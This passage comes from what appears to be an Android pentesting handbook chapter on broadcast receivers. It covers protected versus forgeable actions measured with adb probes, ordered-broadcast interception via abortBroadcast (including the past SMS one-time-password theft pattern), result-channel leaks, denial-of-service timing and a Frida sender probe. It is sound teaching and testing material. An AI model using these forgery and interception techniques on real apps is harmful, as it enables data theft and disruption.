only the app can reach the receiver — a faithful emulation of `NOT_EXPORTED`.

This is directly observable. On the measured Android 11 device, one snapshot of
`dumpsys activity broadcasts` contained **119 filters carrying that permission**, across
three packages:

```
# measured — Redmi M2101K6P, Android 11 / API 30
# adb shell dumpsys activity broadcasts | grep -o "[a-z0-9.]*DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION" | sort -u
com.google.android.gms.DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION
com.google.android.youtube.DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION
com.miui.securitycenter.DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION
```

```
# measured — one registration, verbatim from the dump
* ReceiverList{720594c 3110 com.google.android.youtube/10199/u0 remote:...}
  app=3110:com.google.android.youtube/u0a199 pid=3110 uid=10199 user=0
  Filter #0: BroadcastFilter{720594c}
    Action: "android.net.conn.CONNECTIVITY_CHANGE"
    requiredPermission=com.google.android.youtube.DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION
```

> **🔍 Pentester's Note**
> A `requiredPermission` ending in `DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION` is a
> **positive** finding. It means the developer explicitly asked for a non-exported
> receiver and the support library honoured it on an old device. Do not report it as "a
> custom permission of unknown protection level" — it is a signature permission generated
> by AndroidX, and the receiver is not reachable from another app.

### 3.3 Manifest receivers after API 26 — the implicit-broadcast limits

Android 8.0 (API 26) made the single largest change to this surface. Two separate
restrictions landed together and they are commonly conflated:

**Restriction 1 — implicit broadcasts no longer wake manifest receivers.** With a handful
of exceptions, a manifest-declared receiver no longer receives *implicit* broadcasts. The
app must be running and register at runtime instead.

**Restriction 2 — background execution limits.** An app in the background cannot freely
start services, which is what most receivers did with the broadcast they received.

Three things escape restriction 1, and each is a route back to the pre-26 behaviour:

| Escape | How it works | Why it matters to you |
|---|---|---|
| **Explicit broadcasts** | An Intent with `setComponent()` or `setPackage()` is not implicit, so the limits do not apply. | **This is the attacker's escape too.** Naming the victim package restores the ability to wake a stopped app. `AttackerBroadcaster.java` uses exactly this. |
| **The exemption list** | A set of actions the platform still delivers to manifest receivers — `BOOT_COMPLETED`, `LOCKED_BOOT_COMPLETED`, `MY_PACKAGE_REPLACED`, SMS and MMS delivery, `ACTION_NEW_OUTGOING_CALL`, `USB_ACCESSORY_ATTACHED`, `ACTION_LOCALE_CHANGED` and others. | Almost every action on this list is *also* a protected broadcast, so the exemption does not hand an attacker anything directly. |
| **Signature-permission broadcasts** | A broadcast the receiver could only get by holding a signature permission is exempt. | Rarely relevant offensively. |

> **🔬 Under the Hood**
> The escape via `setPackage()` is not an oversight; it is the documented behaviour, and it
> is the reason "we moved to targetSdk 26, so our manifest receivers are safe" is wrong.
> The restriction removed *incidental* reachability from the whole device. It did not
> remove *deliberate* reachability from an attacker who knows your package name — and your
> package name is in the launcher.

### 3.4 Protected broadcasts — measured, not remembered

> **📖 Definition**
> A **protected broadcast** is an action string declared with
> `<protected-broadcast android:name="..."/>` in the manifest of a **system** package.
> `ActivityManagerService` refuses to dispatch such an action on behalf of any caller that
> is not a platform uid, throwing a `SecurityException` in the sender before any receiver
> is consulted.

Three properties make this the most important single fact in the chapter:

1. It is **enforced by the platform**, not by the app. The receiving app needs to do
   nothing and can do nothing to weaken it.
2. It is **device-specific**. The set is the union of every `<protected-broadcast>`
   declared by every system package installed. AOSP declares the bulk of it in
   `frameworks/base/core/res/AndroidManifest.xml`; OEMs and carriers add their own.
3. `<protected-broadcast>` in a **third-party** manifest does absolutely nothing. It is
   honoured only for platform-signed packages. Its presence in an ordinary app's manifest
   tells you the developer copied a system manifest and believed the copy was working.

#### The static answer

The platform's own list lives in `framework-res.apk`, the APK whose package name is
`android`. Reading it is side-effect free:

```bash
# host — pull the platform framework and read its protected-broadcast declarations
adb pull /system/framework/framework-res.apk framework-res.apk
aapt2 dump xmltree --file AndroidManifest.xml framework-res.apk \
  | grep -A2 'E: protected-broadcast' \
  | grep -oE 'android:name\(0x[0-9a-f]+\)="[^"]+"' \
  | sed 's/.*="//; s/"$//' | sort -u
```

```
# measured — Redmi M2101K6P, Android 11 / API 30
537 <protected-broadcast> elements, 532 distinct action strings
```

`scripts/protected-broadcast-map.sh` does this for you, and will optionally scan every
other system APK for the ones the platform framework does not declare.

#### The dynamic answer, which is authoritative

The static list can be incomplete, so the reliable test is to ask the enforcement path
itself: try to send, and read the error.

```bash
# host — attempt to forge a system broadcast from adb shell (uid 2000)
adb shell "am broadcast -a android.intent.action.BOOT_COMPLETED"
```

```
# measured — Redmi M2101K6P, Android 11 / API 30
Broadcasting: Intent { act=android.intent.action.BOOT_COMPLETED flg=0x400000 }

Exception occurred while executing 'broadcast':
java.lang.SecurityException: Permission Denial: not allowed to send broadcast
android.intent.action.BOOT_COMPLETED from pid=8920, uid=2000
```

The same probe across a wider set, on the same device:

| Action | Result from `adb shell` (uid 2000) |
|---|---|
| `android.intent.action.BOOT_COMPLETED` | **REFUSED** |
| `android.intent.action.PACKAGE_ADDED` | **REFUSED** |
| `android.intent.action.AIRPLANE_MODE` | **REFUSED** |
| `android.net.conn.CONNECTIVITY_CHANGE` | **REFUSED** |
| `android.intent.action.BATTERY_LOW` | **REFUSED** |
| `android.intent.action.SCREEN_ON` | **REFUSED** |
| `android.intent.action.USER_PRESENT` | **REFUSED** |
| `android.intent.action.MY_PACKAGE_REPLACED` | **REFUSED** |
| `android.intent.action.MEDIA_MOUNTED` | **REFUSED** |
| `android.provider.Telephony.SMS_RECEIVED` | **REFUSED** |
| `android.intent.action.HEADSET_PLUG` | **REFUSED** |
| `android.intent.action.LOCALE_CHANGED` | **REFUSED** |
| `android.bluetooth.device.action.ACL_CONNECTED` | **REFUSED** |
| `android.intent.action.SIM_STATE_CHANGED` | **REFUSED** |
| `android.net.wifi.STATE_CHANGE` | **REFUSED** |
| `android.intent.action.DREAMING_STARTED` | **REFUSED** |
| `com.android.vending.INSTALL_REFERRER` | **DELIVERED** — `Broadcast completed: result=0` |
| `com.google.android.c2dm.intent.RECEIVE` | **DELIVERED** |
| `android.intent.action.PROVIDER_CHANGED` | **DELIVERED** |
| `android.intent.action.MEDIA_SCANNER_SCAN_FILE` | **DELIVERED** |
| any custom action, e.g. `com.example.CUSTOM_ACTION` | **DELIVERED** |

Four rows in that table deserve individual attention.

**`com.android.vending.INSTALL_REFERRER` is forgeable.** This is the broadcast the Play
Store sends to a newly installed app carrying the attribution parameters from the install
link. Analytics and attribution SDKs read it and, historically, trust it. Anybody can
send it. It is the canonical example of an important-looking action with no protection at
all, and it is worth checking in every app that bundles an attribution SDK.

**`com.google.android.c2dm.intent.RECEIVE` is forgeable.** That is the legacy
cloud-messaging delivery action. A receiver for it that acts on the payload without
checking the sender is accepting attacker-supplied push messages. Modern Firebase
Messaging guards this with a signature permission on the receiver, but the action itself
is not protected by the platform.

**`android.intent.action.PROVIDER_CHANGED` is forgeable.** An action that sounds
system-owned and is not.

**`android.appwidget.action.APPWIDGET_UPDATE` produced a *different* refusal:**

```
# measured — Redmi M2101K6P, Android 11 / API 30
java.lang.SecurityException: Permission Denial: not allowed to send broadcast
android.appwidget.action.APPWIDGET_UPDATE from unknown caller.
```

Note the wording: "from unknown caller", not "from pid=…, uid=…". That is a *different
check*, raised by `AppWidgetService`, not by the AMS protected-broadcast list — and indeed
this action is **not** in the platform's `<protected-broadcast>` set on this device. A
static list under-reports; only the dynamic probe catches this class.

#### The privilege level matters

```bash
# host — the same protected action, sent as root instead of shell
adb shell "su -c 'am broadcast -a android.intent.action.LOCALE_CHANGED'"
```

```
# measured — Redmi M2101K6P, Android 11 / API 30 (rooted with Magisk)
Broadcasting: Intent { act=android.intent.action.LOCALE_CHANGED flg=0x400000 }
Broadcast completed: result=0
```

Root (uid 0) sends it; shell (uid 2000) is refused. The check keys off the calling uid,
and root is on the allowed side. **This is why a finding proven only from a rooted shell
is not proven**: you were not operating at the privilege level of the attacker you are
modelling.

Conversely, and usefully: a *refusal* at uid 2000 is a reliable "protected", because uid
2000 is more privileged than an ordinary app, not less. If shell cannot send it, no app can.

> **🔍 Pentester's Note**
> The complete workflow is: enumerate the actions a target listens for, classify each as
> protected or forgeable **on the device in front of you**, and spend your time only on
> the forgeable ones. `scripts/protected-broadcast-map.sh --check actions.txt` does the
> classification; `scripts/receiver-surface.py` produces the action list.

### 3.5 The two queues, and the deadline

AMS runs **two** broadcast queues, not one, and which one your broadcast lands in changes
its timeout by a factor of six.

| Queue | Used for | Timeout | Purpose |
|---|---|---|---|
| **foreground** (`bcast_fg_constants`) | Broadcasts with `FLAG_RECEIVER_FOREGROUND` (0x10000000) set | **10 s** | Interactive, latency-sensitive. A slow receiver here freezes something the user is looking at. |
| **background** (`bcast_bg_constants`) | Everything else | **60 s** | Bulk work. |

Measured directly from the device rather than quoted from documentation:

```bash
# host
adb shell "dumpsys activity broadcasts" | grep -A6 "bcast_fg_constants"
```

```
# measured — Redmi M2101K6P, Android 11 / API 30
Broadcast parameters (key=bcast_fg_constants, observing=true):
  bcast_timeout = +10s0ms
  bcast_slow_time = +5s0ms
  bcast_deferral = +5s0ms
  bcast_deferral_decay_factor = 0.75
  bcast_deferral_floor = 0    bcast_allow_bg_activity_start_timeout = +10s0ms

Broadcast parameters (key=bcast_bg_constants, observing=true):
  bcast_timeout = +1m0s0ms
  bcast_slow_time = +5s0ms
  ...
```

| Constant | Measured value (fg / bg) | What it governs |
|---|---|---|
| `bcast_timeout` | 10 s / 60 s | How long an **ordered** broadcast may sit at one receiver before AMS declares an ANR and moves on. |
| `bcast_slow_time` | 5 s / 5 s | The threshold above which a delivery is logged as slow. Useful as a detection signal. |
| `bcast_deferral` | 5 s / 5 s | How long broadcasts to an app under background restriction are deferred. |
| `bcast_deferral_decay_factor` | 0.75 | The deferral shrinks geometrically as the app behaves. |
| `bcast_allow_bg_activity_start_timeout` | 10 s | How long after receiving a broadcast an app retains permission to start an activity from the background. |

Two practical consequences:

**The timeout only applies to ordered broadcasts.** For a parallel broadcast AMS does not
wait for anyone; the "ANR from a broadcast receiver" you occasionally see is an ordered
one. This also means an ordered broadcast can be *held up* by a malicious receiver for up
to the timeout — a denial-of-service primitive against latency-sensitive chains.

**`bcast_allow_bg_activity_start_timeout` is a capability, not a timer.** For 10 seconds
after receiving a broadcast, an app may start an Activity from the background. That is a
real escalation route: a forged broadcast to a receiver that then launches a screen is a
way to put a UI in front of the user without a tap.

### 3.6 Ordered broadcasts — the interception primitive

An **ordered broadcast** is delivered to one receiver at a time, in descending priority
order, with each receiver able to (a) stop the chain, (b) modify a result that the next
receiver sees, and (c) take as long as the timeout allows.

```java
// Java — sender
Intent i = new Intent("com.example.ACTION_SYNC");
sendOrderedBroadcast(
    i,
    null,                     // receiverPermission — receivers must hold this
    resultReceiver,           // runs LAST, in the SENDER'S process
    null,                     // scheduler (null = main thread)
    Activity.RESULT_OK,       // initial result code
    "initial-data",           // initial result data
    null);                    // initial result extras
```

```java
// Java — a receiver in the chain
@Override
public void onReceive(Context c, Intent i) {
    String carried = getResultData();      // what earlier receivers left
    setResultCode(42);                     // what later receivers will see
    setResultData("rewritten");
    abortBroadcast();                      // nobody after me sees this at all
}
```

#### Priority: who goes first

| Where set | Syntax | Notes |
|---|---|---|
| Manifest | `<intent-filter android:priority="500">` | Visible to any static tool. |
| Runtime | `filter.setPriority(500)` | **Invisible to every static tool.** |

Priority is a plain signed integer. There is no authorisation check on the value. The
documentation reserves values above 1000 for the system, but nothing enforces that
reservation, and real apps ignore it:

```bash
# host — how many receivers compete for BOOT_COMPLETED, and at what priority
adb shell "cmd package query-receivers --brief -a android.intent.action.BOOT_COMPLETED"
```

```
# measured — Redmi M2101K6P, Android 11 / API 30
214 receivers found:
  Receiver #0:
    priority=2147483647 preferredOrder=0 match=0x108000 specificIndex=-1 isDefault=false
    com.lbe.security.miui/com.lbe.security.service.BootReceiver
  Receiver #1:
    priority=1000 preferredOrder=0 match=0x108000 specificIndex=-1 isDefault=false
    android/com.android.server.BootReceiver
  ...
```

Two hundred and fourteen receivers, and the winner sits at `2147483647` — `Integer.MAX_VALUE`.
Somebody wanted to be first badly enough to write the largest number that fits.

#### `abortBroadcast()`: the interception

Calling `abortBroadcast()` from a receiver in an ordered chain stops delivery. No
lower-priority receiver in **any** app receives the broadcast, and none of them is told
why. To the victim, the broadcast simply never arrives.

The historical, famous instance of this is SMS interception: register for
`android.provider.Telephony.SMS_RECEIVED` at a high priority, read the one-time password,
call `abortBroadcast()`, and the user's real messaging app never shows the message. That
specific path has been closed — SMS delivery is now restricted to the default SMS app —
but the *pattern* is intact for every ordered broadcast between two ordinary apps.

Two limits on the primitive, both worth knowing before you rely on it:

| Limit | Mechanism | Effect |
|---|---|---|
| `FLAG_RECEIVER_NO_ABORT` (`0x08000000`) | Set by the **sender** on the Intent | The chain still runs in priority order, but `abortBroadcast()` is ignored. The sender's defence. |
| `receiverPermission` | Supplied by the **sender** | If you do not hold it you are not in the chain at all, so you cannot intercept what you cannot receive. |

#### Result passing: the exfiltration channel

The result — code, data string, and extras Bundle — flows forward through the chain and
finally lands in the **sender's** `resultReceiver`, running in the **sender's** process.

This is the part developers do not internalise. `setResultData(sessionToken)` inside your
receiver does not send the token "to the framework". It sends it to whoever sent the
broadcast. If an arbitrary app can send the broadcast, an arbitrary app collects the
result — with no permission, no user interaction, and nothing in any log the victim reads.

> **🔍 Pentester's Note**
> `am broadcast` sends an **ordered** broadcast whether you asked for one or not.
> Measured: a plain `adb shell am broadcast -a com.pentest.ORDER_TEST` produced a
> historical record reading `resultAbort=false ordered=true sticky=false
> initialSticky=false`, and the Frida delivery hook inside a receiving app confirmed
> `ordered=true`. The `Broadcast completed: result=0` line you see is the final result
> code of that ordered chain. So `am broadcast` will show you result-channel leaks for
> free — but it also means a bug you can only reproduce with `am broadcast` may be
> reachable only on the ordered path, and an ordinary app calling `sendBroadcast()` would
> not hit it. Reproduce from an app.

### 3.7 Sticky broadcasts — and precisely why they are gone

> **📖 Definition**
> A **sticky broadcast** is one that AMS *retains* after delivery. Any receiver that
> registers a matching filter **later** — minutes or hours later, in a process that did
> not exist when the broadcast was sent — is immediately handed the retained Intent as the
> return value of `registerReceiver()`.

```java
// Java — deprecated since API 21, still present and still functional
sendStickyBroadcast(intent);            // requires BROADCAST_STICKY
removeStickyBroadcast(intent);
Intent last = registerReceiver(r, f);   // non-null == a sticky value came back
```

The deprecation reason is not performance and not tidiness. It is that **a sticky
broadcast cannot be protected**, and the reason is structural:

| Control | Works on a normal broadcast? | Works on a sticky broadcast? |
|---|---|---|
| `receiverPermission` on the send | Yes — only holders receive it | **No.** The value is retained by AMS and replayed later, outside the original send. There is no sender at replay time to enforce anything. |
| Receiver-side `android:permission` | Yes | Partially — it guards *your* receiver, not the retained value. |
| `setPackage()` targeting | Yes | **No.** Retention is global. |
| Removing it later | n/a | Only by the original sender, and anything that read it already has it. |

So: anyone who can register a matching filter reads the last value, and there is no
mechanism to stop them. Any secret ever placed in a sticky broadcast is a secret held by
the whole device until reboot.

There is a second, subtler problem. Because a sticky value is delivered at registration
time, ordering guarantees evaporate: a receiver can be handed a *stale* value that no
longer reflects reality, and if it treats that as an event rather than a state read, it
acts on old information.

The platform's own use was `ACTION_BATTERY_CHANGED`, which is why the idiom
`registerReceiver(null, new IntentFilter(Intent.ACTION_BATTERY_CHANGED))` still works as a
one-shot battery-state read — a null receiver, purely to harvest the sticky value.

Sending a sticky broadcast requires the `BROADCAST_STICKY` permission, which is
`protectionLevel="normal"` — granted to any app that asks.

```bash
# host — are any sticky broadcasts retained right now?
adb shell "dumpsys activity broadcasts" | grep -i "sticky"
```

```
# measured — Redmi M2101K6P, Android 11 / API 30
# Every hit was a per-record flag line, not a retained value:
resultAbort=false ordered=true sticky=false initialSticky=false
```

No app-level sticky broadcasts were retained on this device. That matches expectations for
a modern build: the API is deprecated and the platform stopped using it for anything a
third-party app can see. **Finding one in a target is therefore notable** — it means the
app is using a decade-old deprecated API and nobody reviewed it.

### 3.8 The two permission checks, and their asymmetry

This is the part that trips up experienced reviewers, because the two controls have
similar names, do opposite things, and only one of them is visible in a manifest.



| | Set by | Checked against | Protects against | Visible in the manifest? |
|---|---|---|---|---|
| **`receiverPermission`** — `sendBroadcast(intent, perm)` | the **sender** | every candidate **receiver** | **Eavesdropping.** Stops other apps overhearing your broadcast. | **No.** It is an argument at a call site. Only a hook or a code read finds it. |
| **`android:permission`** on `<receiver>`, or the `broadcastPermission` argument to `registerReceiver` | the **receiver** | the **sender** | **Forgery.** Stops other apps driving your receiver. | Yes for manifest receivers. **No** for runtime ones — though it does show up as `requiredPermission` in `dumpsys activity broadcasts`. |

You usually need both, and for different reasons. If your broadcast carries data, set
`receiverPermission` so nobody overhears. If your receiver takes action, set
`android:permission` so nobody drives it. Setting one and calling the job done is the
common half-fix.

And the level matters more than the presence:

```bash
# host — resolve what a permission actually protects
adb shell "pm list permissions -f -g" | grep -A3 "com.example.permission.SYNC"
```

A `protectionLevel="normal"` permission is granted automatically to any app that declares
`<uses-permission>` for it. A component guarded by one is not guarded.
[23-Permissions](../23-Permissions/README.md) covers the levels;
[32-Manifest](../32-Manifest/README.md) automates the resolution.

On the measured device, of 1,438 live runtime filters, **211 carried a `requiredPermission`
at all** — and 36 of those were the AndroidX `NOT_EXPORTED` shim rather than a deliberate
cross-app control.

### 3.9 Caller identity — measured, not argued

**Inside `onReceive()`, you cannot determine who sent the broadcast.**

This is stated in the documentation and widely repeated, but the *reason* is rarely given,
and the reason is what makes it unfixable. Every broadcast is re-dispatched by
`ActivityManagerService`. The Binder transaction that reaches your process originates in
`system_server`, not in the sending app. The kernel stamps *that* transaction's sender —
faithfully, and unforgeably — as uid 1000.

Measured, from inside a real app, with `scripts/hook-broadcast.js`:

```bash
# host
frida -U -f com.miui.calculator -l scripts/hook-broadcast.js
# then, in the REPL:
#   bc.watch()
#   bc.senderProbe()
# then, from another shell, send a broadcast the app listens for
```

```
# measured — Redmi M2101K6P, Android 11 / API 30
[deliver] context-registered receiver, from the binder thread
    [senderProbe] Binder.getCallingUid() = 1000   <-- system_server, NOT the app that sent it
                  Binder.getCallingPid() = 0
                  Process.myUid()        = 10141   (this app)
    ordered=true  sticky=false  resultCode=0  resultData=null  user=0
    action   : android.intent.action.LOCALE_CHANGED
    flags    : 0x400010  [EXCLUDE_STOPPED_PACKAGES, FROM_BACKGROUND]
```

`Binder.getCallingUid()` returns 1000. `Binder.getCallingPid()` returns 0 — there is no
live caller, because the delivery is a `oneway` transaction. The receiving app's own uid is
10141. Nothing here identifies the sender.

Contrast this with [25-Binder](../25-Binder/README.md), where caller identity across a
direct Binder call is unforgeable *and useful*: a bound service really can authenticate its
caller. Broadcasts lose that property precisely because they pass through a broker.

#### The one place the sender *is* recorded

AMS keeps a ring buffer of recent broadcasts, and it records the caller:

```bash
# host
adb shell "am broadcast -a com.pentest.PROBE_EXTRAS --es token SUPERSECRET123 --ei n 42"
adb shell "dumpsys activity broadcasts" | grep -A6 "com.pentest.PROBE_EXTRAS"
```

```
# measured — Redmi M2101K6P, Android 11 / API 30
BroadcastRecord{2439c45 u0 com.pentest.PROBE_EXTRAS} to user 0
Intent { act=com.pentest.PROBE_EXTRAS flg=0x400010 (has extras) }
  extras: Bundle[{n=42, token=SUPERSECRET123}]
caller=null null pid=9127 uid=2000
enqueueClockTime=2026-08-11 20:35:05.220 ...
```

Two findings in five lines.

**`caller=… uid=2000` is the sender.** That is the only attribution available anywhere on
the system, and it is available only to something that can run `dumpsys` — shell, root, or
an app holding the `DUMP` permission (which is `signature|privileged`, so not an ordinary
app).

**`extras: Bundle[{n=42, token=SUPERSECRET123}]` is a cleartext dump of the payload.** The
broadcast history records extras verbatim. Anything an app puts in a broadcast extra is
readable, after the fact, by anyone with shell access — and the buffer holds 50 records per
queue on this device. This is a genuine and under-appreciated data-exposure channel, and it
is the concrete reason the rule "never put a secret in a broadcast extra" is a rule rather
than a style preference.

> **🔍 Pentester's Note**
> `dumpsys activity broadcasts` is the first thing to grab in a forensic or malware triage
> workflow, before anything is restarted. It is the only record that a malicious broadcast
> was ever sent, it names the sending uid, and it contains the payload.
> `scripts/receiver-surface.py --history --with-extras` parses it and flags
> credential-shaped keys.

### 3.10 Flags with security consequences

These are `Intent` flags, set by the sender, that change broadcast dispatch specifically.
The general `Intent` flag table lives in [26-Intent §3.7](../26-Intent/README.md).

| Flag | Value | Effect | Why you care |
|---|---|---|---|
| `FLAG_RECEIVER_REGISTERED_ONLY` | `0x40000000` | Only **runtime-registered** receivers get it; manifest receivers are skipped. | The system uses it for broadcasts it does not want to wake apps for. Seeing it explains why a manifest receiver "never fires". |
| `FLAG_RECEIVER_NO_ABORT` | `0x08000000` | Ordered delivery continues in priority order, but `abortBroadcast()` is ignored. | The sender's defence against interception. Its **absence** on a sensitive ordered broadcast is the precondition for the interception attack. |
| `FLAG_RECEIVER_FOREGROUND` | `0x10000000` | Puts the broadcast on the foreground queue — 10 s timeout instead of 60 s. | Latency-sensitive. Also a hint that the sender considers this urgent. |
| `FLAG_RECEIVER_REGISTERED_ONLY_BEFORE_BOOT` | `0x10000000` (system-only context) | Registered-only until boot completes. | System use. |
| `FLAG_EXCLUDE_STOPPED_PACKAGES` | `0x00000010` | Skip apps in the stopped state (force-stopped, or never launched since install). Default for most system broadcasts since Android 3.1. | Explains why a freshly installed app's manifest receiver does not fire until the user opens it once. |
| `FLAG_INCLUDE_STOPPED_PACKAGES` | `0x00000020` | The opposite: deliver to stopped apps too, waking them. | **Offensively interesting.** A way to wake a dormant target. Combine with an explicit `setPackage()` to bypass the API 26 implicit limits. |
| `FLAG_RECEIVER_VISIBLE_TO_INSTANT_APPS` | `0x00200000` | Instant apps may receive it. | Widens the audience beyond installed apps. |

The measured flags on a real system broadcast, decoded:

```
# measured — Redmi M2101K6P, Android 11 / API 30
Intent { act=android.intent.action.SCREEN_OFF flg=0x50200010 }
```

`0x50200010` decomposes into `FLAG_RECEIVER_REGISTERED_ONLY` (`0x40000000`) +
`FLAG_RECEIVER_FOREGROUND` (`0x10000000`) + `FLAG_RECEIVER_VISIBLE_TO_INSTANT_APPS`
(`0x00200000`) + `FLAG_EXCLUDE_STOPPED_PACKAGES` (`0x10`). Registered-only, foreground
queue, visible to instant apps, skipping stopped packages. That is the platform saying:
this is urgent, do not wake anybody for it.

### 3.11 `goAsync()`, the PendingResult, and receiver lifetime

`onReceive()` must return quickly. `goAsync()` is the sanctioned extension:

```java
// Java
@Override
public void onReceive(Context context, Intent intent) {
    final PendingResult pending = goAsync();
    new Thread(() -> {
        try {
            doWork(intent);
        } finally {
            pending.finish();   // MUST be called, or the process leaks and then ANRs
        }
    }).start();
}
```

What `goAsync()` actually does:

- It tells the framework the broadcast is not finished when `onReceive` returns.
- The process is kept at a higher `oom_adj` (less killable) until `finish()` is called.
- For an **ordered** broadcast, the chain does not advance until `finish()`.
- The **timeout still applies**. `goAsync()` buys you the same 10 or 60 seconds off the
  main thread; it does not lift the deadline.

`PendingResult` also carries the ordered-broadcast result setters — `setResultCode`,
`setResultData`, `setResultExtras`, `abortBroadcast` — so an async receiver can still
intercept.

> **⚠️ Warning**
> Forgetting `pending.finish()` is a real and common bug. The symptom is an ANR attributed
> to a broadcast receiver, minutes after the broadcast, with a stack trace that does not
> obviously involve the receiver. If you are trying to *cause* an ANR in a target as a
> denial-of-service, a receiver that calls `goAsync()` and can be made to take a slow path
> is the place to look.

### 3.12 Version Matrix

| API | Release | Change | What it means for testing |
|---|---|---|---|
| 1 | 1.0 | `sendBroadcast`, `registerReceiver`, ordered broadcasts, sticky broadcasts | — |
| 12 | 3.1 | `FLAG_EXCLUDE_STOPPED_PACKAGES` becomes the default for most system broadcasts | Force-stopped and never-launched apps stop receiving. A fresh install's manifest receiver will not fire until the app is opened once. |
| 21 | 5.0 | **Sticky broadcasts deprecated** | Still functional. Finding one in a modern app is a finding in itself. |
| 21 | 5.0 | `LocalBroadcastManager` promoted in the support library | Traffic that never reaches AMS. Seeing an app adopt it is a **fix**, not a finding. |
| 26 | 8.0 | **Manifest receivers no longer get most implicit broadcasts.** Background execution limits. | Massively shrinks the *incidental* static surface. Does **not** shrink the deliberate one: `setPackage()` and `setComponent()` are exempt. |
| 26 | 8.0 | `registerReceiver(r, filter, flags)` overload added | The `flags` parameter exists but the export bits do not yet. |
| 29 | 10 | `cmd package query-receivers` available | The tool this chapter uses to enumerate the *static* half. |
| 30 | 11 | **Package visibility filtering.** An app's own queries are filtered by `<queries>`. | Your `adb shell` view is wider than the target app's view. A receiver you can see may be invisible to your attacker app. |
| 31 | 12 | `android:exported` **must be declared explicitly** on any component with an `<intent-filter>` | Removes the accidental-export default for manifest receivers. Says nothing about runtime ones. |
| 31 | 12 | Notification trampolines restricted — a notification tap may no longer start an Activity via a receiver or service | Closes one broadcast-based UI-injection route. |
| 33 | 13 | **`RECEIVER_EXPORTED` / `RECEIVER_NOT_EXPORTED` mandatory** for context-registered receivers of non-system broadcasts, for apps with `targetSdk` 33+ | The single biggest change to the *runtime* surface. Below 33 there is no export flag at all. |
| 34 | 14 | Registration for non-system broadcasts continues to require the flag; further background-start restrictions | — |

> **⚠️ Warning**
> The API 33 flag requirement is `targetSdk`-gated, not device-gated. An app with
> `targetSdk 30` running on an Android 14 device still gets the old, unconditionally
> exported behaviour from the two-argument overload. Check `targetSdkVersion`, not the
> device's API level, before you conclude anything about export state.
> **This was not measurable on the device used for this chapter (API 30), so every API 33
> statement above is documented behaviour, not measured.**

---

## 4. Source Code Walkthrough (AOSP)

### 4.1 The files that matter

| Path | What lives there |
|---|---|
| `frameworks/base/core/java/android/content/BroadcastReceiver.java` | The abstract class, `PendingResult`, `goAsync()`, `abortBroadcast()`, the result setters |
| `frameworks/base/core/java/android/content/Context.java` | The `sendBroadcast*` / `registerReceiver` contracts, `RECEIVER_EXPORTED` / `RECEIVER_NOT_EXPORTED` |
| `frameworks/base/core/java/android/app/ContextImpl.java` | The real implementations. `registerReceiverInternal()` is where a receiver becomes an `IIntentReceiver` |
| `frameworks/base/core/java/android/app/LoadedApk.java` | `ReceiverDispatcher`, `InnerReceiver`, `Args` — the per-process delivery machinery |
| `frameworks/base/core/java/android/app/ActivityThread.java` | `handleReceiver()` — instantiates and drives **manifest-declared** receivers |
| `frameworks/base/core/java/android/content/IIntentReceiver.aidl` | The one-method Binder interface a receiver is exposed as |
| `frameworks/base/core/java/android/content/IntentFilter.java` | `match()`, priority, the filter data model |
| `frameworks/base/services/core/java/com/android/server/am/ActivityManagerService.java` | `broadcastIntent()`, `broadcastIntentLocked()` — the policy decisions |
| **`frameworks/base/services/core/java/com/android/server/am/BroadcastQueue.java`** | **The queue. `enqueueParallelBroadcastLocked`, `enqueueOrderedBroadcastLocked`, `processNextBroadcast`, `deliverToRegisteredReceiverLocked`, `performReceiveLocked`** |
| `frameworks/base/services/core/java/com/android/server/am/BroadcastRecord.java` | One in-flight broadcast: the Intent, the receiver list, the result state, the timing |
| `frameworks/base/services/core/java/com/android/server/am/BroadcastFilter.java` | One runtime-registered filter, plus its `requiredPermission` and owning `ReceiverList` |
| `frameworks/base/services/core/java/com/android/server/am/ReceiverList.java` | All the filters registered by one `IIntentReceiver` in one process |
| `frameworks/base/services/core/java/com/android/server/am/BroadcastConstants.java` | `bcast_timeout`, `bcast_slow_time`, `bcast_deferral` and friends |
| `frameworks/base/core/res/AndroidManifest.xml` | Every platform `<protected-broadcast>` declaration |

> **⚠️ Warning**
> No line numbers appear anywhere in this chapter. AOSP file paths are stable across
> releases; line numbers are not, and a wrong one wastes a reader's afternoon. Search for
> the method name.
>
> Note also that `BroadcastQueue.java` was substantially rewritten for Android 14 (the
> "modern broadcast queue" work), which replaced the two fixed queues with per-process
> queues. The names below are the Android 11/12/13 shape, which is what the measured
> device runs and what most devices in the field still run.

### 4.2 Sending: `ContextImpl.sendBroadcast` to `AMS.broadcastIntentLocked`

The app side is thin. `ContextImpl.sendBroadcast(Intent)` does two things: it calls
`intent.prepareToLeaveProcess(this)` — which is where `Uri` permissions get resolved and
where a `FileUriExposedException` would be raised — and then makes one Binder call:

```java
// frameworks/base/core/java/android/app/ContextImpl.java (shape, abridged)
@Override
public void sendBroadcast(Intent intent) {
    warnIfCallingFromSystemProcess();
    String resolvedType = intent.resolveTypeIfNeeded(getContentResolver());
    try {
        intent.prepareToLeaveProcess(this);
        ActivityManager.getService().broadcastIntentWithFeature(
                mMainThread.getApplicationThread(), getAttributionTag(), intent,
                resolvedType, null, Activity.RESULT_OK, null, null,
                null /*requiredPermissions*/, AppOpsManager.OP_NONE, null, false,
                false, getUserId());
    } catch (RemoteException e) {
        throw e.rethrowFromSystemServer();
    }
}
```

The important detail is what is **not** passed: no identity of any kind. The sender does
not, and cannot, assert who it is. The kernel supplies that on the other side of the Binder
transaction. See [25-Binder](../25-Binder/README.md) for the demonstration that this cannot
be forged.

On the `system_server` side, `ActivityManagerService.broadcastIntentLocked()` is where all
the policy lives. Its structure, in order:

1. **Resolve the user.** `handleIncomingUser()` maps `USER_CURRENT` and friends to a real
   user id, and rejects cross-user sends without the right permission.
2. **Strip flags a caller may not set.** `FLAG_RECEIVER_FROM_SHELL` and others are cleared
   unless the caller is entitled to them.
3. **The protected-broadcast check.** AMS asks the package manager whether the action is
   protected. If it is, and the caller is not a platform uid, it throws:

```java
// frameworks/base/services/core/java/com/android/server/am/ActivityManagerService.java
//   broadcastIntentLocked(), shape only
final boolean isProtectedBroadcast;
try {
    isProtectedBroadcast = AppGlobals.getPackageManager().isProtectedBroadcast(action);
} catch (RemoteException e) { ... }

if (!isCallerSystem) {
    if (isProtectedBroadcast) {
        String msg = "Permission Denial: not allowed to send broadcast "
